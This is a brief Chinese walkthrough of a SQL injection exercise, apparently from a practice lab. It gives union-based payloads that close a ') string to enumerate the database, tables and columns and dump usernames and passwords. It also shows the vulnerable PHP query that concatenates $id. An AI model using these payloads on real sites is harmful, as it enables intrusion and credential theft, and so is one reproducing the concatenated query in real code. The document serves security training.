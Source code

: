 # 确认闭合类型
一样，一开始先随便输入一下  
输入：?id=1'  
报错：near ''1'') LIMIT 0,1' at line 1  
     '1'') LIMIT 0,1  
可以看到这一次比第一题多了括号，所以我们闭合时也要加上括号


# 确认回显位置
?id=-1') union select 1,2,3--+  
其他payload也是一样

# 查询数据库名
?id=-1') union select 1,database(),3 --+

# 查询表名
?id=-1') union select 1,group_concat(table_name),3 from information_schema.tables where table_schema=database()--+

# 查询列名
?id=-1') union select 1,group_concat(column_name),3 from information_schema.columns where table_name='users' and table_schema=database()--+

# 查询值
?id=-1') union select 1,group_concat(username),group_concat(password) from users--+

# 源码
$sql="SELECT * FROM users WHERE id=('$id') LIMIT 0,1"; 
多了括号